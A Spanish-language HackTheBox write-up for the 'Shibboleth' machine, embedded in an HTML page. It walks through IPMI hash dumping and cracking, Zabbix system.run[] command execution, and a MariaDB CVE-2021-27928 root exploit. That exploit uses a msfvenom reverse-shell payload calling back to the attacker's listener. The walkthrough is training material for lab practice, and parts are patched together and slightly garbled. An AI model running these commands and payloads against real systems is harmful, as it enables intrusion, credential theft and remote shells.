



<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Shibboleth</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Shibboleth" de HackTheBox

Caracerisicas:

- Linux  
- Media  
- Abusing IPMI (Intelligent Platform Management Interface)
- Zabbix Exploitation 
- MariaDB 
- Remote Code Execution (CVE-2021-27928) 
- Password Reuse  
- IPMI  
- Penetration Tester Level 2  
- CVE-2021-27928  
- Weak Credentials
- Apache
- Ubuntu


Uil en:

- eWPT 
- OSCP

        IP 10.10.11.124

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.124

PORT   STATE SERVICE
80/tcp open  http

- sudo nmap -sCV -p22,80 10.10.10.230 -oN targeted

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb

Codename Ubuntu 20.04 focal 
Agregamos el dominio shibboleth.htb al /etc/hosts

- nmap --script http-enum -p80 shibboleth.htb

vemos el directorio forms, lo revisamos y no hay nada util asi que vamos a la seccion formulario tratamos de mandar algo pero no corre
asi que el proximo paso sera fuzear con gobustter buscando enumerar subdominios.

- gobuster vhost -u http://shibboleth.htb -w /usr/share/SecList/Discovery/DNS/subdomains-top1million-5000.txt -t 100

encontramos 3 sub dominios que son zabbix monitor y monitoring 
empezamos revisando zabbix y es un software de monitoreo de estado de varios servicios de red para servidores y hardware de red,
usa mysql, postgreSQL, SQLite, Oracle o ibm db2 como base de datos
empezamos revisando por 

- searchsploit zabbix

continuamos 

gobuster dir -u http://zabbix.shibboleth.htb -x txt,php,html -t 100 -w /usr/share/seclist/discovery/web-content/directorylist23medium

/hosts.php

nos devuelve que no estamos logueados para poder ver esta seccion 
seguiremos escaneando esta vez por udp

- nmap  --top-ports 500 -sU --open -T5 -v -n 10.10.11.124

escaneamos los 500 puertos mas comunes (--top-ports 500 ) por udp (-sU) y encontramos el puerto 623

- nmap -sCV -p623 10.10.11.124 -sU  -oN UDPtargeted

puerto 623 asf-rmco

intelligent platform management interface

la interface de administracion de plataforma inteligente, es un conjunto de especificaciones de interface de computadora autonoma que proporciona
capacidades de administracion y monitoreo independientemente de la cpu, el firmware y el sistema operativo del sistema host
en hacktricks por seccion discovery aparece una la ruta auxiliary/scanner/ipmi/impi_version vemos una especie de exploit 
continuaremos buscando los scripts de nmap 

- locate .nse | grep ipmi

usaremos ipmi-version

- nmap --script ipmi-version -p623 -sU 10.10.11.124 -oN ipmi

y los devuelve, ipmi-version 2.0 seguimos viendo hacktrick y mas abajo, cuando llegamos a al vulnerabilidad 2.0 en hacktricks podemos ver
vulnerabilidad de recuperacion de hash para contraseña remotas, autenticacion rakp de ipmi 2.0
basicamente se puede solicitar al servidor los hashes mdi de cualquier nombre de usuario, hay un modulo de metasploit para probarlo seleccionaremos
la salida en formato john o hashcat

- msf > use auxiliary/scanner/ipmi/ipmi_dumphashes

tambien habiamos visto ipmi cipher zero como script de nmap asi que lo probamos

- sudo nmap --script ipmi-cipher-zero -p623 -sU 10.10.11.124 -oN ciperzero

resulta ser un checker que nos devuelve state vulnerable, lo que significa que podemos explotarlo
asi que instalamos ipmitools, que vimos en los tips de hacktricks y en la seccion de (you can abuse) podemos ver el proceso

    msf6 > use  auxiliary/scanner/ipmi/ipmi_version
    msf6 auxiliary(scanner/ipmi/ipmi_version) > options


    Module options (auxiliary/scanner/ipmi/ipmi_version):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    BATCHSIZE  256              yes       The number of hosts to probe in each set
    RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
    RPORT      623              yes       The target port (UDP)
    THREADS    10               yes       The number of concurrent threads

    msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.10.11.124
    rhosts => 10.10.11.124
    msf6 auxiliary(scanner/ipmi/ipmi_version) > run

    [*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
    [+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed


    msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.11.124
    rhosts => 10.10.11.124
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

    Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

    Name                  Current Setting                                                                 Required  Description
    ----                  ---------------                                                                 --------  -----------
    CRACK_COMMON          true                                                                            yes       Automatically crack common passwords as they are obtained
    OUTPUT_HASHCAT_FILE                                                                                   no        Save captured password hashes in hashcat format
    OUTPUT_JOHN_FILE                                                                                      no        Save captured password hashes in john the ripper format
    PASS_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
    RHOSTS                10.10.11.124                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
    RPORT                 623                                                                             yes       The target port
    SESSION_MAX_ATTEMPTS  5                                                                               yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
    SESSION_RETRY_DELAY   5                                                                               yes       Delay between session retries in seconds
    THREADS               1                                                                               yes       The number of concurrent threads (max one per host)
    USER_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line

Este script tomará una lista de usuarios (la lista predeterminada es una llamada ipmi_users.txt) y solicitar hashes para cada uno de ellos.
En realidad, esa lista es bastante corta: 


    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt
    [*] exec: cat /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt


    ADMIN
    admin
    root
    Administrator
    USERID
    guest
    Admin

Podría intentar preguntar por otros nombres si quisiera también, pero comenzaré con la lista recomendada.

Devuelve un hash: 

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:bfa382dc840500003332ec77155a87c439e4e063befc86ee45c6a9549950eceba32da628f637a746a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f4b2dcc03c98373e2ebe667693aa6a88651ffebb
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

ipmiPwner es un script de Python que puede realizar ataques similares. Clonaré el repositorio y luego ejecutaré requirements.sh para preparar mi sistema.

Por defecto probará la misma lista que MSF:

Ejecutándolo solo con el --host [ip]El argumento devuelve el hash para el administrador: 

- sudo python3 ipmipwner.py --host 10.10.11.124
[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[!] Wrong username ADMIN
[!] Wrong username admin
[*] The username: Administrator is valid
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a0820a0000f793de846396a33033290affdcb188a1b6db9aaa178ce75290b2fd6cfd76bac7a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$ac4f0b33225a3d1d4c5b7e423c094ef72bc4997d


El hash anterior se puede tomar como esa línea completa y pasar a hashcat(utilizando el --userflag porque el hash comienza con el nombre de usuario),
que detectará el formato como modo 7300 y descifrará el hash muy rápidamente: 

$ /opt/hashcat-6.2.5/hashcat.bin ipmi.hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.5) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
                                                    
7300 | IPMI2 RAKP HMAC-SHA1 | Network Protocol
...[snip]...
bfa382dc840500003332ec77155a87c439e4e063befc86ee45c6a9549950eceba32da628f637a746a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f4b2dcc03c98373e2ebe667693aa6a88651ffebb:ilovepumkinpie1
...[snip]...

La contraseña no funciona para ningún usuario conocido a través de SSH, así que recurriré a Zabbix. Administrator/ilovepumkinpie1 funciona para 
iniciar sesión (el nombre de usuario distingue entre mayúsculas y minúsculas), lo que me lleva al panel de Zabbix: 



una vez allí, podemos hacer que el sistema ejecute comandos arbitrarios a través del system.run[]llave. Encontré esto https://sbcode.net/zabbix/agent-execute-python/



Después de crear el objeto malicioso y configurar un oyente con nc, recibí una devolución una shell
enumerando llegue al etc passwd que muestra que hay otro usuario. ipmi-svcque también tiene un shell bash, y podemos reutilizar la 
contraseña de esta cuenta para acceder fácilmente y acceder a la flag de root 
Mirando alrededor del sistema de archivos, encontré el archivo de configuración del servidor zabbix en /etc/zabbix/zabbix_server.conf. 
Y encontré algunas credenciales de base de datos en ese archivo.

- cat /etc/zabbix/zabbix_server.conf|grep -v "#"



tambien al mirar los puertos abiertos, vi que MySQL se estaba ejecutando en el puerto 3306.

- ss -tlnp

la versión de MariaDB era un poco antigua al buscar exploits para esta versión, descubrí que hay un CVE para esto que era CVE-2021–27928. 
Según el CVE, la vulnerabilidad es: 

" Una ruta de búsqueda que no es de confianza conduce a una inyección de evaluación, en la que un SUPERusuario de la base de datos puede
 ejecutar comandos del sistema operativo después de modificar wsrep_provider y wsrep_notify_cmd ":

 https://nvd.nist.gov/vuln/detail/CVE-2021-27928

 y el repor de github para explotarlo https://github.com/Al1ex/CVE-2021-27928?

 Siguiendo los pasos primero creé un archivo .so con msfvenom. 

 - msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.21 LPORT=443 -f elf-so -o test.so

 Luego inicié un oyente en el puerto 443 y transferí el archivo a la caja. Luego, como se menciona en la POC, ejecuté el siguiente comando

    mysql -u zabbix -p
    SET GLOBAL wsrep_provider="/tmp/test.so";

Y recupere un shell como root buscamos la flag y terminada.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>